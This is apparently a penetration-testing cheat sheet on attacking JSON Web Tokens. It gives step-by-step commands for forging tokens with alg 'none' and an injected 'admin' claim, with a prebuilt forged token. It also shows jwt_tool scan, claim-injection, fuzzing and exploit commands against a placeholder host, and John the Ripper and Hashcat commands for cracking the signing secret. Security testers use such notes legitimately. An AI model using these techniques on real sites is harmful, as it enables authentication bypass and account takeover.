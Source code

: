 ```yaml
---
title: JWT (Json Web Token) Pentesting
description: JWT is a proposed internet standard for creating data with optional signature and optional encryption whose payload holds JSON that asserts some number of claims.
tags:
    - Web
refs:
date: 2023-03-11
draft: false
---
```


## Decode JWT

There are some online JWT decoder/encoder tools like **[JWT.io](https://jwt.io/)**.

<br />

## Manipulate JWT

If the website uses JWT and we can see the token, copy the JWT and paste it in [jwt.io](https://jwt.io/).

1. Replace the **“alg”** value with **“none”** in header.
2. Replace arbitrary values of the payload e.g. **“username”** with **“admin”**.
3. Empty the signature field.

If the error **“Invalid Signature”** occured, we can manually create Base64 value for each section.    
If you want to empty the signature field manually, you can delete the final section.  
For example,

```bash
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjc4NDYwNjM1fQ==.
```

Now copy the JWT.  
Go to the website and replace the original JWT with the new one in HTTP header.

<br />

## Automation

**[JWT Toolkit](https://github.com/ticarpi/jwt_tool)** is a toolkit for testing, tweaking and cracking JWT.

### Decode

```sh
python jwt_tool.py <Base64_Encoded_JWT>
```

### Scan

```sh
# -t: Target URL
# -rc: Cookies
# -M pb: Playbook Scan Mode
# -cv: Canary Value
python jwt_tool.py -t https://vulnerable.com/admin -rc "jwt=<Base64_Encoded_JWT>;anothercookie=test" -M pb -cv "not authorized"
```

### Exploit

```sh
# -X i: Exploit (inject inline)
# -I -pc username -pv admin: Inject Claim ("username": admin)
python jwt_tool.py -t https://vulnerable.com/admin -rc "jwt=<Base64_Encoded_JWT>;anothercookie=test" -X i -I -pc username -pv admin
```

### Fuzz

```sh
# -I -hc kid -hv wordlist.txt: Inject Claim ("kid": FUZZ)
python jwt_tool.py -t https://vulnerable.com/admin -rc "jwt=<Base64_Encoded_JWT>;anothercookie=test" -I -hc kid -hv wordlist.txt
```

### Manual Pentesting

```sh
# Tamper (Manual Exploit)
python jwt_tool.py <Base64_Encoded_JWT> -T

# Exploit (Automated Exploit)
# -X a: Exploit (alg: none)
python jwt_tool.py <Base64_Encoded_JWT> -X a
```

<br />

## Crack JWT Secret

First of all, you need to put the JWT into the text file.

```sh
echo -n '<Base64_Encoded_JWT>' > jwt.txt
```

Then crack the hash using John the Ripper or Hashcat.

```sh
john --format=HMAC-SHA256 --wordlist=/usr/share/wordlists/rockyou.txt jwt.txt

hashcat -a 0 -m 16500 jwt.txt passwords.txt
hashcat -a 0 -m 16500 jwt.txt passwords.txt -r rules/best64.rule
hashcat -a 3 -m 16500 jwt.txt '?u?l?l?l?l?l?l?l' -i --increment-min=6
```

If you found a secret, you can create a new JWT using the secret on tools like JWT.io.